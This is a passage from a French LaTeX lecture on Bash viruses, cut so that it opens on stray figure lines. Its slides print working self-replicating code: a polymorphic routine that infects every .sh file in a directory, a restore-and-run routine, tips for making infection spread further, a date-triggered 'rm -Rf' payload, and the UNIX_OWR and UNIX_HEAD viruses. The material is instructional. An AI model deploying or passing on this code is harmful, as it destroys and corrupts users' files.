\only<2>{
\includegraphics[width=8cm]{figures/process-vbash1-restauration}}
\only<3>{
\includegraphics[width=8cm]{figures/process-vbash1-infection}}
\end{center}

\end{frame}



\begin{frame}
  \frametitle{Polymorphisme}
\begin{itemize}
\item La stratégie de lutte \alert{anti-antivirale} consiste à faire varier le code de copie en copie.
\item Le code modifié sera un code différent dans la forme, mais effectuera les mêmes tâches.
\end{itemize}
\end{frame}
\begin{frame}
  \frametitle{Polymorphisme : stratégie employée}
  \begin{itemize}
\item L'approche que l'on va adopter consiste à \alert{ permuter les lignes aléatoirement.}
\item Nous devrons alors adapter la lutte contre la surinfection :
\begin{itemize}
\item On doit détecter l'infection quelle que soit la forme permutée du virus :
  \begin{center}
    $\to$ on utilisera une signature (plus simple).
    \end{center}
\item Pour que le virus puisse s'exécuter lors du lancement du fichier, la permutation inverse doit être effectuée.
\end{itemize}
\end{itemize}
\end{frame}




\begin{frame}[fragile]
  \frametitle{Polymorphisme : stratégie employée}
\begin{itemize}
\item Chaque ligne du corps principal du virus contient un commentaire en fin de ligne de la forme {\color{blue}\texttt{\#@n\#} }
\item où {\color{blue} \texttt{n}} est l'indice de la ligne.
\item L'encadrement avec {\color{blue} \texttt{\#@.\#}} permet d'éviter de sélectionner plusieurs lignes avec un grep.
\end{itemize}
\end{frame}


\begin{frame}[fragile]
  \frametitle{Ébauche du code de restauration}
  \begin{scriptsize}
\begin{verbatim}
######## code de restauration
LI=8  # nombre de ligne de code d'infection
echo "" >  temp.sh
nb=1
while [ $nb -le $LI ]   #boucle de restauration du code viral
do
    cat $0 | grep "#@$nb#"  >> temp.sh
    nb=$(($nb+1))
done
chmod u+x temp.sh && ./temp.sh ## on lance le code viral
rm temp.sh ## on nettoie
exit 0
########## code d'infection ##########
echo "5" #@5#
echo "8" #@8#
echo "2" #@2#
echo "debut" #@1#
echo "3" #@3#
echo "7" #@7#
echo "6" #@6#
\end{verbatim}
\end{scriptsize}
\end{frame}


\begin{frame}[fragile]
  \frametitle{Polymorphisme : code d'infection}
  Pour tous les fichiers .sh du répertoire courant :
\begin{itemize}
\item Il teste la surinfection par la présence d'une signature.
\item Pour les fichiers à infecter il ajoute les lignes une à une aléatoirement :
  \begin{itemize}
  \item Il énumère les numéros de ligne par une astuce arithmétique : les entiers
    $$ n_i=(r * 3^i) \bmod 17 \mbox{ pour } i=0,\ldots,16 $$
    sont distincts et aléatoires si $r$ l'est.
    \item  Il sélectionne la ligne qui contient \#@$n_i$\# avec un grep.
  \end{itemize}
  \end{itemize}
\end{frame}



\begin{frame}[fragile]
  \frametitle{Code d'infection avec sélection de ligne aléatoirement}
  \begin{block}{}
\begin{scriptsize}
\begin{verbatim}
LI=16
for i in *.sh	 #@1#  # "ixYT6DFArwz" c'est la signature
do   #@2#
    if  [  -z "$(grep ixYT6DFArwz $i)" ] #@3#  # recherche de la signature
    then # infection  #@4#
        #@5#
        #@6#
        nb=1; echo $i;  #@7#
        r=$(( ($RANDOM % ($LI+1)) + 1))  #@8#
        while [ $nb -le $LI ] #@9#
        do    #boucle de restauration du code #@10#
            r=$((($r*3) % ($LI+1))) #@11# choix d'une ligne aleatoire
            cat $0 | grep "#@$r#"  >> $i #@12# ajout de la ligne
            nb=$(($nb+1)); echo $r #@13#
        done  #@14#
    fi #@15#
done   #@16#
\end{verbatim}
\end{scriptsize}
\end{block}
\end{frame}



\subsection{Autres améliorations possibles}

\begin{frame}
\frametitle{Accroissement de la virulence}

\begin{itemize}
\item L'action est limitée car elle est restreinte au répertoire courant.
\item L'infection par le virus pose le problème de pouvoir distinguer script et fichier compilé.
\item On peut augmenter la virulence en testant l'existence de la chaîne \texttt{\#!/bin/bash} en début de fichier.
\item On peut augmenter la virulence en faisant un parcours récursif de l'arborescence des fichiers.
\end{itemize}
\end{frame}


\begin{frame}[fragile]
\frametitle{Placement d'une charge finale}


\begin{itemize}
\item On peut choisir de l'exécuter uniquement si l'infection est réussie.
\item Ou encore si un nombre suffisant de fichiers a été infecté.
\item Son exécution peut être liée à une condition, par exemple
\begin{semiverbatim}
if test "\$(date +\%b\%d)" == "Jan21"; then
 rm -Rf
fi
\end{semiverbatim}
\end{itemize}
\end{frame}

\section{Exemples réels}

\subsection{Le virus \texttt{UNIX\_OWR}}


\begin{frame}[fragile]
\frametitle{Le virus \texttt{UNIX\_OWR}}
\texttt{UNIX\_OWR} (pour overwrite) est un virus simple et petit,
il fonctionne par écrasement de code.

\medskip

\begin{block}{Le virus \texttt{UNIX\_OWR}}
\begin{semiverbatim}
for file in *; do # pour tout fichier
    cp $0 $file # écraser le fichier cible par le virus
done
\end{semiverbatim}
\end{block}
\end{frame}


\begin{frame}
\frametitle{Caractéristiques de \texttt{UNIX\_OWR}}
\begin{itemize}
\item Sa portée est limitée au répertoire courant.
\item Il infecte tous les fichiers (exécutables ou non).
\item Le virus s'écrase lui-même provoquant le message d'erreur
\begin{center}
\texttt{cp : '.\slash v' and 'v' are the same file}
\end{center}
qui pourra éventuellement alerter l'utilisateur.
\item Le virus n'est pas furtif : tous les fichiers infectés ont la même taille.
\end{itemize}
\end{frame}





\subsection{Le virus \texttt{UNIX\_HEAD}}

\begin{frame}[fragile]
\frametitle{Le virus \texttt{UNIX\_HEAD}}

\begin{block}{Le virus \texttt{UNIX\_HEAD}}
\begin{small}
\begin{semiverbatim}
for F in * do  {\color{gray} \# parcours des fichiers }
   do
\alert<2>{      if[ "\$(head -c9 \$F 2 >> /dev/null)" == "\#!/bin/bash"]
         {\color{gray}\# si les 9 premiers caractères sont "\#!/bin/bash"}}
      then
\alert<3>{         HOST=\$(cat \$F | tr '\begin{math}\backslash\end{math}n' \begin{math}\backslash\end{math}xc7))
         {\color{gray}\# copie de la cible dans \$HOST}}
\alert<4>{         head -11 $0 > $F 2> /dev/null
         {\color{gray}\# écrase le fichier cible }
         {\color{gray}\# avec les 11 premières lignes }}
\alert<5>{         echo \$HOST | tr \begin{math}\backslash\end{math}xc7 '\begin{math}\backslash\end{math}n' >> \$F 2> /dev/null
         {\color{gray}\# le contenu du fichier cible est ajouté}
         {\color{gray}\# à la suite du code viral}}
      fi
   done
\end{semiverbatim}
\end{small}
\end{block}
\end{frame}


\begin{frame}
\frametitle{Caractéristiques de \texttt{UNIX\_HEAD}}
\begin{itemize}
\item Il procède par ajout de code.
\item Sa portée est limitée au répertoire courant.
\item Il n'y a pas de gestion de la surinfection.
\item Le virus n'est pas furtif, les fichiers infectés ont tendance à grossir.
\item La commande \texttt{tr} produit des erreurs, rendant le virus visible.
\end{itemize}
\end{frame}


\section{Conclusion}

\begin{frame}
  \frametitle{Que retenir ?}
  Ce chapitre couvre les virus en langages interprétés :
  \begin{itemize}
  \item Connaître les bases du scripting Bash.
  \item Comprendre le mécanisme d'un virus Bash simple (\texttt{vbashp}).
  \item Comprendre la lutte contre la surinfection et ses stratégies.
  \item Comprendre le polymorphisme comme technique anti-antivirale.
  \item Connaître des exemples réels de virus Shell (\texttt{UNIX\_OWR}, \texttt{UNIX\_HEAD}).
  \end{itemize}
\end{frame}

\end{document}
